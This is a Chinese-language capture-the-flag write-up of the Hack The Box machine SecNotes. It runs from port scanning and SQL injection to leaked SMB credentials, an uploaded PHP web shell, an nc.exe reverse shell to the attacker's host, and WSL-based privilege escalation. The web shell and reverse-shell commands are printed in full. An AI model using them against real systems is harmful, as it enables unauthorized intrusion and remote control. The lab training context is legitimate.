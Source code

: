 # 信息搜集

## Nmap

```sh
root@kali# nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.97
...
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
...
root@kali# nmap -sC -sV -p 80,445,8808 -oA nmap/details 10.10.10.97
...
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h32m28s, deviation: 4h37m09s, median: -7m32s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2019-01-13T09:01:07-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-01-13 12:01:08
|_  start_date: N/A
...
```

## WebSite - TCP 8808

此站点似乎只有 IIS 默认页面：

![截图](388b46447518f29e0f862375125d6972.png)

## WebSite - TCP 80

访问该网站时，我们被重定向到/login.php，之后发现可以注册一个用户，并使用该用户登录，重定向到/home.php。

![截图](63f56608a49e25114be8c363717bfb13.png)

我们也可以尝试SQL注入绕过。

![截图](192640e5496eb4e65a844771001cf53f.png)

注册新的账号进入查看网站内容，给出提示存在注入，尝试使用SQL注入

![截图](a868797a4ad6567aa5e14c9fcfc71f8a.png)

重新注册一个账号尝试注入，获取到账号密码与域名：
用户：tyler
密码：92g!mA8BGjOirkL%OG*&

![截图](0c81676751dbcad49b35498b34b69975.png)

# 漏洞扫描与探测

通过之前端口扫描得知445端口开放了smb服务，使用smbclient进行登录。

```
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' \\\\10.129.62.186\\new-site
```

> smbclient使用教程：https://cloud.tencent.com/developer/article/2393256
> 
> -U <用户名称>：指定用户名称；

![截图](0cb1e77aa5087b8752da677699a48349.png)

其中的照片是8808端口在使用。

## shell权限

通过SMB上传文件。

```
root@kali# echo test > hypnotic.txt
...
smb: \> put hypnotic.txt
putting file hypnotic.txt as \hypnotic.txt (1.2 kb/s) (average 0.6 kb/s)
...
root@kali# curl http://10.10.10.97:8808/hypnotic.txt
test
```

接下来通过上传恶意脚本进行提权.

```
root@kali# cat /opt/shells/php/cmd.php 
<?php system($_REQUEST['cmd']); ?>

root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php hypnotic.php'
putting file /opt/shells/php/cmd.php as \hypnotic.php (0.5 kb/s) (average 0.5 kb/s)

root@kali# curl http://10.10.10.97:8808/hypnotic.php?cmd=whoami
secnotes\tyler
```

现在我们有代码执行的功能。

首先找到一份副本 nc 并将其放到磁盘上：

```
root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe

root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe'
putting file /opt/shells/netcat/nc.exe as \nc.exe (359.2 kb/s) (average 359.2 kb/s)
```

接下来，调用它来取回一个 shell：

```
root@kali# curl "http://10.10.10.97:8808/hypnotic.php?cmd=nc.exe+-e+cmd.exe+10.10.14.15+443"
```

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49738.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
secnotes\tyler
```

# 权限提升

在C:\Distros\Ubuntu目录下发现ubuntu.exe

![截图](47d9fbe724944d54a0dd28b983b0fc45.png)

尝试进行利用执行bash.exe
成功提权

![截图](1b377cec6d3c40fedefe79e9226f6053.png)

获取交互式shell
查看.bash_history文件

![截图](4eda4bd60e308ab983ff43492e9c0aa5.png)

发现管理员账号与密码使用该账号登录smb服务，发现root.txt将其下载到kali中进行查看

![截图](62bad95aa0b949d05d0dba3c066c4a9a.png)